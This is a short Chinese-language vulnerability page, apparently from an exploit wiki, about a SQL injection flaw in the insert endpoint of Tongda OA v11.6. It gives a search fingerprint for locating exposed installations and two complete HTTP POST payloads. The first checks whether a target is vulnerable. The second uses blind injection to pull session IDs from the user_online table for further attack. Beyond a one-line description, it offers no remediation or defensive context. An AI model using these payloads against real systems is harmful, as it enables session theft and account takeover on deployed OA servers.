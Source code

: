 # 通达OA v11.6 insert SQL注入漏洞

## 漏洞描述

通达OA v11.6 insert参数包含SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>通达OA v11.6 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1628303165911-5ee90d8c-903a-46d7-a373-ab9b04bdb173.png)

发送请求包判断漏洞

```php
POST /general/document/index.php/recv/register/insert HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 77
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

title)values("'"^exp(if(ascii(substr(MOD(5,2),1,1))<128,1,710)))# =1&_SERVER=
```

返回302则是存在漏洞，返回500则不存在

![img](/assets/PeiQi-Wiki/img/1628303346227-1737a449-b413-4475-83b3-0190c946fa7c.png)

确认存在漏洞后，再通过SQL注入获取 SessionID进一步攻击

```php
POST /general/document/index.php/recv/register/insert HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 122
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

title)values("'"^exp(if(ascii(substr((select/**/SID/**/from/**/user_online/**/limit/**/0,1),8,1))<66,1,710)))# =1&_SERVER=
```

